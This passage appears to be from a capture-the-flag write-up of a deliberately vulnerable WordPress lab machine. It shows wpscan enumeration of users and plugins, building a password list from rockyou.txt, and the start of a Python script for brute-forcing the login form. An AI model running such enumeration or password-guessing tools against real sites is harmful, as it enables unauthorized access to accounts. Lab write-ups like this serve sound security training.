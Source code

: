 ```console
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ...
```

I saved the users into a file to brute force later.

```console
root@kali:~$ echo -e "admin\ngraham\njens\nmark\nsarah" > users.txt 
```

A further scan with wpscan reveals the **plainview-activity-monitor** plugin.

```console
root@kali:~$ wpscan --url http://wordy/ --plugins-detection aggressive
...
[+] plainview-activity-monitor
 | Location: http://wordy/wp-content/plugins/plainview-activity-monitor/
 | Last Updated: 2018-08-26T15:08:00.000Z
 | Readme: http://wordy/wp-content/plugins/plainview-activity-monitor/readme.txt
 | [!] The version is out of date, the latest version is 20180826
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://wordy/wp-content/plugins/plainview-activity-monitor/, status: 200
 |
 | Version: 20161228 (50% confidence)
 | Found By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://wordy/wp-content/plugins/plainview-activity-monitor/readme.txt
...
```

A google search reveals that it is vulnerable to OS command injection, but to exploit this vulnerability we need to log in.

We use the hint in the description of the machine at the time of download it, which specifies that the password starts with **k01** in the rockyou.txt to brute force.

```console
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz | grep 'k01' > passwords.txt
```

I developed the following python script to perform a dictionary attack against the wordpress login form.

```python
#!/usr/bin/env python3

import requests
import sys
import argparse
from colorama import init, Fore

parser = argparse.ArgumentParser(description='Wordpress brute forecer.')
parser.add_argument('--url', metavar='URL', help='Wordpress login url')
parser.add_argument('-l', metavar='USER', help='Wordpress user')
parser.add_argument('-L', metavar='USERFILE', help='Users file')
parser.add_argument('-P', metavar='PASSFILE', help='Password file')
args = parser.parse_args()

url = args.url
user = args.l
users_file = args.L
password_file = args.P

init()
green = Fore.GREEN
yellow = Fore.YELLOW
```